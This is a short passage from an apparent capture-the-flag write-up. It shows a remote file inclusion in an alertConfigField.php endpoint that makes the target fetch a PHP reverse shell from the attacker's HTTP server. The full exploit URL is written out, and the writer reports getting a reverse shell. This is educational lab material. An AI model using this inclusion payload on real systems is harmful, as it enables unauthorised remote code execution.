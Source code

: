 Apparently we can create a http server in our machine, hosting a php reverse shell that will be executed by the target... Let’s try:

After the http server is set up, he have to navigate to:

[`http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php`](http://10.10.25.208/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.10.10:8000/php-reverse-shell.php)

![Untitled](/assets/images/ctf-writeups/skynet/Untitled%2037.png)

And we get a reverse shell, awesome!

![Untitled](/assets/images/ctf-writeups/skynet/Untitled%2038.png)
